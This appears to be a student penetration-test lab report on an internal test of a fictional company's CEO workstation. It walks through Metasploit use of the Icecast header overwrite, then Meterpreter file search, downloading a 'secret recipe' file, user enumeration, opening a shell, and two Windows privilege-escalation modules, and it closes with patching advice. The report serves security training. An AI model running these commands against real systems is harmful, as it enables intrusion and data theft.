 # Penetration_Test_Engagement

In this activity, I played the role of an independent penetration tester hired by "GoodCorp Inc." to perform security tests against their CEO's workstation.

## GoodSecurity Penetration Report

JosephMossman@GoodSecurity.com

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**

192.168.0.20

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

Icecast Header Overwrite

![Icecast_Vulnerability](Screenshots/search_icecast_command.png)

**Vulnerability Explanation:**
 
The Icecast Header Overwrite vulnerability running on 192.168.0.20 Host allows a buffer overflow exploit that lets an attacker system gain remote control of the victim system by overwriting the memory on the system. The exploit writes past the end of a pointer array when receiving 32 HTTP headers. This allowed for a variety of remote actions, such as file discovery and download, key logging, screen capture, and privilege escalation to Administrator.

**Severity:**

The severity of this vulnerability is High, with a CVSS score of 7.5.

**Proof of Concept:**

Perform a service and version scan using Nmap to determine which services are up and running:

- Run the Nmap command that performs a service and version scan against the target.

   > **Answer:** nmap -sV 192.168.0.20

   ![nmap](Screenshots/nmap_command.png)

From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

- Run the SearchSploit commands to show available Icecast exploits.

> **Answer:** searchsploit icecast

 ![searchsploit_icecast](Screenshots/searchsploit_icecast_command.png)

Now that we know which exploits are available to us, let's start Metasploit:

- Run the command that starts Metasploit:

> **Answer:** msfconsole

 ![msfconsole](Screenshots/msfconsole_command.png)
 
Search for the Icecast module and load it for use.

- Run the command to search for the Icecast module:

> **Answer:** search icecast

 ![search_icecast](Screenshots/search_icecast_command.png)
 
- Run the command to use the Icecast module:

> **Answer:** use 0

 ![use](Screenshots/use_0_command.png)
 
- Run the command that sets the RHOST:

> **Answer:** set RHOST 192.168.0.20

 ![RHOST](Screenshots/use_rhost_command.png)
 
- Run the command that runs the Icecast exploit.

> **Answer:** exploit

 ![exploit](Screenshots/exploit_command.png)
 
You should now have a Meterpreter session open.

- Run the command that performs a search for the secretfile.txt on the target.

> **Answer:** search -f *secretfile*.txt

 ![secretfile](Screenshots/secretfile_command.png)

- Run the command to performs a search for the recipe.txt on the target:

> **Answer:** search -f *recipe*.txt

 ![recipe](Screenshots/recipe_command.png)

- Run the command that ex-filtrates the recipe*.txt file:

> **Answer:** download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’

 ![exfiltrate](Screenshots/exfiltrate_recipe_command.png)

- Verify that you have successfully downloaded the file.

> **Verification:**

 ![verification](Screenshots/verify_drinks.png) 

You can also use Meterpreter's local exploit suggester to find possible exploits.

- Run the command to use Meterpreter’s local exploit suggester.

> **Answer:** run post/multi/recon/local_exploit_suggester

 ![exploit_suggestor](Screenshots/exfiltrate_recipe_command.png)

- Run a Meterpreter post script that enumerates all logged on users.

> **Answer:** run post/windows/gather/enum_logged_on_users

 ![enum_users](Screenshots/logged_on_users_command.png)

- Run the command to open a Meterpreter shell and gather system information for the target.

> **Answer:** shell

 ![shell](Screenshots/shell_command.png)

- Run the command that displays the target's computer system information:

> **Answer:** systeminfo

 ![systeminfo](Screenshots/systeminfo_command.png)

### Separate findings for each vulnerability can be found below:

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ikeext_service

**Vulnerability Explanation:**

The ikeext_service vulnerability utilizes a missing Dynamic-link library (DLL) in Microsoft’s operating system that runs as SYSTEM and starts automatically in default installations of select windows operating systems. This vulnerability can be used for privilege escalation under the SYSTEM account. It requires an insecure bin path to plant the DLL payload.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.0.

**Proof of Concept:** 

 ![ikeext_proof](Screenshots/ikeext_vulnerability.png)

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ms16_075_reflection

**Vulnerability Explanation:**

The ms16_075_relfection vulnerability utilizes a reflection link between Distributed Component Object Model (DCOM) and Remote procedure call (RPC) that allows local users to use a crafted application to gain a SYSTEM handle for privilege escalation. The module does not start as SYSTEM by default. Once gaining a shell SYSTEM impersonation is possible.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.9.

**Proof of Concept:** 

 ![ms16_proof](Screenshots/ms16_075_reflection_vulnerability.png)

### 3.0 Recommendations

The Icecast Header Overflow exploit is an older vulnerability that can be fixed with a current patch. It is recommended to update to the latest version of Icecast, found here: https://icecast.org/download/

Other technical recommendations would be to encrypt all sensitive data and enable firewall rules to only allow traffic on needed ports. 
